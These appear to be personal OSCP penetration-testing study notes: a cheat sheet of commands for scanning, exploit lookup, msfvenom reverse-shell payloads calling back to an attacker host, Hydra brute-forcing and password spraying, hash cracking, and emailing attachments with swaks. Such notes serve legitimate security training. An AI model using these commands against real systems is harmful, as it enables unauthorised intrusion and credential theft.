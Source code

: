 Tags: [[OSCP]]

---
# Setup
Create directories: `mkdir dc host1 host2`
- Create sub directories: `mkdir enu loot files exploits`
Setup hostnames: `sudo nano /etc/hosts` then add host/kali IPs
# Quick Reference
- `sudo nmap -T5 -p- -v host1 -oN enu/host1.nmap`
- `sudo nmap -T5 -p80,443,1978-1980 -sCV -v host1 -oN enu/nmap-services.nmap`
- `gobuster dir -u http://host1 -w /usr/share/dirb/wordlists/common.txt | tee gobuster-p80.nmap`
- `usr/share/wordlists/rockyou.txt`
- `usr/share/wordlists/SecLists`
- `nc -nvlp 4444` [NetCat Cheat Sheet](https://gist.github.com/cmbaughman/c91f41ba7b2cf71106f1)
- https://www.revshells.com/
# Exploits
- Searchspolit
	- Search exploits `searchsploit remote mouse 3.008`
	- View exploit `searchsploit -x 46697`
	- Copy exploit `searchsploit -m 46697`
- [Sicat](https://github.com/justakazh/sicat) (`~/Tools/sicat`)
	- Search exploits: `python3 ~/Tools/sicat/sicat.py -k "Keywords here" --exploitdb --msfmodule --packetstorm --exploitalert --nvd`
	- Use exported nmap xml (use `-oX nmap_out.xml`): `python3 ~/Tools/sicat/sicat.py -nm nmap_out.xml --exploitdb --msfmodule --packetstorm --exploitalert --nvd` 
- Nmap 
	- Grep Exploit list `grep Exploits /usr/share/nmap/scripts/*.nse`
	- NSE help `nmap --script-help=nsescript-name.nse`
- MSFvenom - [Cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/ )
	- PHP `msfvenom -p php/reverse_php LHOST=192.168.x.x LPORT=4444 -o shell.php`
	- Windows 
		- List x64 payloads: `msfvenom -l payloads --platform windows --arch x64`
		- Unstaged Revshell: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.xx.xxx LPORT=4444 -f exe > reverse.exe
		- Metasploit staged: `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe`
			- Open msfconsole on Kali: `sudo msfconsole -q`
			- Multi-handler: `use multi/handler`
			- Set payload: `set payload windows/x64/shell/reverse_tcp`
			- Set options: `show options`
			- Run: `run` to listen, then run binary on target (`.\staged.exe`)
	- [Alphanumeric Shellcode](https://www.offsec.com/metasploit-unleashed/alphanumeric-shellcode/) `msfvenom -a x86 --platform windows -p windows/shell/shell_reverse_tcp -e x86/alpha_mixed -f python`
# Grep
- `grep "text string" filetosearch.txt -A 5`
- `grep -rni "text string" /path/to/directory`
# Nmap
[Top 10 Scripts](https://www.stationx.net/nmap-scripts/)
- `sudo nmap -p- -T5 -o target.nmap 192.168. -v`
- `sudo nmap -Pn -p22,25,80 -sCV 192.168. -oN target.nmap -v`
- `sudo nmap -Pn -p21,242,3145,3389 -sCV 192.168.171.46 -oN authby-tcp.nmap -v --script=vulners --script-args mincvss=9.8`
# Fuzzing
Gobuster
- Directory search: `gobuster dir -u http://target.ip.address.here:port -w //usr/share/dirb/wordlists/common.txt`
- Find files: `gobuster dir -u http://www.targetwebsite.com/ -w /usr/share/dirb/wordlists/big.txt -x php,html,htm`
	- Other wordlists: `common.txt`
FFUF
- Directory search: `ffuf -u http://192.168.x.x:80/FUZZ -w /usr/share/wordlists/secLists/Discovery/Web-content/raft-medium-directories.txt -o ffuf_port`
# Hydra
- [Cheatsheet](https://github.com/frizb/Hydra-Cheatsheet)
- FTP Default Creds: `hydra -C /usr/share/secLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.x.x`
- HTTP Login: `hydra -L /usr/share/secLists/usernames/top-usernames-shortlist.txt -P /usr/share/dirb/wordlists/others/best1050.txt 192.168.x.x http-get /`
- SSH with known user: `sudo hydra -l username -P ~/Downloads/rockyou.txt -s PORT ssh://192.168.xx.xxx`
- Password Spray RDP: `sudo hydra -L ~/Downloads/rockyou.txt -p "sUp3rs3cur3p@ssw0rd rdp://192.168.xx.xxx`
- HTTP POST Login Form:
	- Use burp to intercept a failed login attempt
	- Copy line from POST request with username/password
	- Run Hydra with failed login: `hydra -l user -P ~/Downloads/rockyou.txt 192.168.target.ip http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
# Cracking
- John
`john user.hash --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules`
- SSH2John: `wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
	-  `ssh2john id_rsa > ssh.hash` (`nano` to remove usernames from start of `ssh.hash`)
	- `ssh -i root_rsa root@127.0.0.1 -o IdentitiesOnly=yes`

- Hashcat - https://github.com/frizb/Hashcat-Cheatsheet
	- (MD5): `hashcat -m 0 user.hash /usr/share/wordlists/rockyou.txt -r password.rule --force`
	- HashID: `hashcat --help | grep -i "Hashname"`
		- `hash-identifier` or `hashid hashhere`
	- Find mode: `hashcat --help | grep -i "ntlm"`
	- Password Rules: `ls -la /usr/share/hashcat/rules/`[Special Rules](https://github.com/Unic0rn28/hashcat-rules)
## Email - swaks 
Sending Emails with attachments to server req. authentication
`sudo swaks -t target.user@target.com --from test@target.com -ap --attach @config.Library-ms --server target.mail.server.ip --body @emailbody.txt --header "Subject: " --suppress-data --auth-user test@target.com --auth-password knownpassword`
## Web
- Banner Grabbing: `curl -IL http://weboripaddress` & Ctrl+U to view page source
- `whatweb 192.168.xx.xxx`
- [Wordpresscan](https://github.com/swisskyrepo/Wordpresscan)
- `wpscan --url http://192.168.xx.xxx --enumerate p --plugins-detection aggressive -o target/wpswcan`
- Wordpress RCE https://medium.com/@althubianymalek/uploading-a-shell-in-wordpress-via-sqli-entry-point-1caf441b3d9a


